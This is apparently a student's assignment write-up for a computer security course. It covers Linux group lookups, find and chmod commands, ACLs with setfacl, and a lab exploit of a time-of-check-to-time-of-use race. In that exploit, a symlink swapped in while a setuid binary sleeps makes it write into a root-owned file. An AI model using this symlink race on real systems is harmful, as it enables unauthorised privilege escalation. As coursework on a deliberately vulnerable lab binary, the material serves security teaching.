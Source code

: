 ## Part A - File System Permissions

**Q1: Write a bash function to convert a GID to a group name using the Linux group file**

```bash
#!/bin/bash

gidSearch()
{
	cat /etc/group | grep -w $1 | cut -d : -f1
}
```

One would need to run ```source <script-name>.sh``` bring this script into the context of the current shell. 
Alternative would be to add “export PATH = $PATH:$pwd” in your bashrc so current parent shell can find the command gidSearch

Here is how the invocation looks like

```bash
comp4108@node00:$ gidSearch 100
users

comp4108@node00:$ gidSearch 45
sasl
```

**Q2 Write a command to change all the directories with permissions 777 in /A2/Haystack to have permissions 750 instead**

```diff
> sudo find . -type d -perm 777 -exec chmod 750 {} \;
```

In the command above, ```\;``` is for escaping the ```;``` character so bash does not interpret it as a command delimeter

**Q3 Find all the binary files in /usr/bin with the setuid bit set.**

```diff 
> find . -perm /4000
```

000 refers to the regular permission bits and 4 refers to the setuid bit. / means find files with at least one bit set from 4000.

## Part B - Access Control Lists

/A2/Gotham has following directory tree: 

```
Gotham
|
|-- Arkham
|
|-- GothamPD
|
'-- WayneManor
    |
    |-- Batcave
    |
    '-- MasterBedroom
```

**1. Give the ACL for the top level Gotham directory** 
```diff 
> getfacl /A2/Gotham
``` 

**2. Use chmod to add rx permissions for the other category to Gotham and ALL its sub-directories.** 
```diff
> chmod o+rx -R /A2/Gotham
```

**3. Use setfacl to add read and write permissions to Gotham, Arkham and GothamPD for the user jgordon**
```diff
> setfacl -m jgordon:rw /A2/Gotham/ /A2/Gotham/Arkham/ /A2/Gotham/GothamPD/
```

**4. Use setfacl to add read, write, and execute permissions toWayneManor, Batcave and MasterBedroom for the user bwayne** 
```diff
> setfacl -m bwayne:rwx /A2/Gotham/WayneManor/ /A2/Gotham/WayneManor/Batcave/ /A2/Gotham/WayneManor/MasterBedroom/ 
```

**5. Use setfacl to remove the ACL entries on Arkham for the users skyle and ocobblepot** 
```diff
> setfacl -x u:ocobblepot Arkham/
> setfacl -x u:skyle Arkham/
```

Results after removing ACL entries: 

![b-5](images/b-5.png)

**6. Give the ACL for all subdirectories of Gotham.** 
```diff
> find /A2/Gotham/ -type d -exec getfacl {} \; 
```

## Part C - Race Conditions - TOCTOU 

### Slow (Easy difficulty) 
```diff 
- Skeleton code is provided in Racing folder
```

This involves learning to exploit a classic time of check versus time of use (ToCToU) vulnerability (https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use) in order to gain root access on the VM. We are given two files ```root_file``` and ```vuln_slow```

```root_file``` is owned by root and has no write permissions for any other users. 

```
student@COMP4108-a2:/A2/Racing/Slow$ ls -l root_file
-rw-r--r-- 1 root root 319 Sep 14  2012 root_file
```

```vuln_slow``` binary has setuid bit set 
```
student@COMP4108-a2:/A2/Racing/Slow$ ls -l vuln_slow
-rwsrwsr-x 1 root root 9116 Sep 14  2012 vuln_slow
```

It takes two arguments: a delay in seconds and a message to write to a debug file.

```
student@COMP4108-a2:/A2/Racing/Slow$ ./vuln_slow
Syntax: ./vuln_slow [delay seconds] [message]
```

vuln_slow binary works by checking the permissions on its debug file, sleeping for the provided number of seconds, and then writing to the debug file. 

Our objective is to exploit vuln_slow into writing a message you provide into root_file.

**WRITEUP:**

Let's run strace for tracing syscalls: 

```diff 

> student@COMP4108-a2:/A2/Racing/Slow$ strace ./vuln_slow 60 hacked
```

```c 

execve("./vuln_slow", ["./vuln_slow", "60", "hacked"], [/* 23 vars */]) = 0
brk(0)                                  = 0xa54000
fcntl(0, F_GETFD)                       = 0
fcntl(1, F_GETFD)                       = 0
fcntl(2, F_GETFD)                       = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c757000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=16342, ...}) = 0
mmap(NULL, 16342, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7f9c5c753000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\0\31\2\0\0\0\0\0"..., 832) = 832
fstat(3, {st_mode=S_IFREG|0755, st_size=1807032, ...}) = 0
mmap(NULL, 3921080, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0x7f9c5c179000
mprotect(0x7f9c5c32d000, 2093056, PROT_NONE) = 0
mmap(0x7f9c5c52c000, 24576, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b3000) = 0x7f9c5c52c000
mmap(0x7f9c5c532000, 17592, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c532000
close(3)                                = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c752000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c751000
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c750000
arch_prctl(ARCH_SET_FS, 0x7f9c5c751700) = 0
mprotect(0x7f9c5c52c000, 16384, PROT_READ) = 0
mprotect(0x600000, 4096, PROT_READ)     = 0
mprotect(0x7f9c5c759000, 4096, PROT_READ) = 0
munmap(0x7f9c5c753000, 16342)           = 0
brk(0)                                  = 0xa54000
brk(0xa75000)                           = 0xa75000
umask(0)                                = 02
open("/home/student/.debug_log", O_RDWR|O_CREAT|O_APPEND, 0666) = 3
access("/home/student/.debug_log", W_OK) = 0
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 0), ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c756000
write(1, "Sleeping for 60 seconds.\n", 25Sleeping for 60 seconds.
) = 25
rt_sigprocmask(SIG_BLOCK, [CHLD], [], 8) = 0
rt_sigaction(SIGCHLD, NULL, {SIG_DFL, [], 0}, 8) = 0
rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
nanosleep({60, 0},
0x7ffd44821de0)      = 0
write(1, "Writing debug message.\n", 23Writing debug message.
) = 23
open("/home/student/.debug_log", O_RDWR|O_CREAT|O_APPEND, 0666) = 4
fstat(4, {st_mode=S_IFREG|0666, st_size=0, ...}) = 0
mmap(NULL, 4096, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7f9c5c755000
write(4, "hacked\n", 7)                 = 7
close(4)                                = 0
munmap(0x7f9c5c755000, 4096)            = 0
write(1, "Goodbye!\n", 9Goodbye!
)               = 9
exit_group(0)
```

From the strace log, we notice that 

```access("/home/student/.debug_log", W_OK) = 0``` syscall is successful. After this, the process waits for 60 seconds using ```nanosleep({60, 0},```. 

It seems like the binary is trying to check write permission using ```access()```. If that is successful, it writes our message to ```.debug_log``` file. 

During the time when binary is sleeping, what if we create a symlink from ```.debug_log``` to ```root_file```. The binary cannot assume the state managed by the operating system will not change between system calls. This is why we are able to exploit the vulnurability using external input. 

The exploitation process is: 
- Run the binary using command ```./vuln_slow 60 hacked_by_anon```. It should be in sleep for 60 seconds. 
- During these 60 seconds, run ```ln -s /A2/Racing/Slow/root_file /home/student/.debug_log``` in a separate terminal

![symlink] (images/symlink_racing_slow)

![racing](images/racing_slow)

SUCCESS! 

```diff
- path to directories might change 
```

